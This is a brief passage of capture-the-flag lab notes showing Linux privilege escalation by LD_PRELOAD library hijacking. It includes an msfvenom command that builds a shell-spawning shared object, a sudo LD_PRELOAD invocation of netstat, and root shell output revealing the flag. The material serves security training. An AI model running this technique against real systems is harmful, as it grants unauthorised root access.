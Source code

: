 making msfvenom library payload
```bash
msfvenom -p linux/x64/exec CMD=/bin/sh -f elf-so > liby.so
```
transferring over file to linux victim
![[Pasted image 20240531123359.png]]

`sudo LD_PRELOAD=/tmp/liby.so netstat`
![[Pasted image 20240531123640.png]]
2nd flag

![[Pasted image 20240531123725.png]]

```bash
# whoami
root
# cd /root
# ls
flag.txt  snap
# cat flag.txt
GENESIS{L1BRARY_HIJ4CK1NG}

```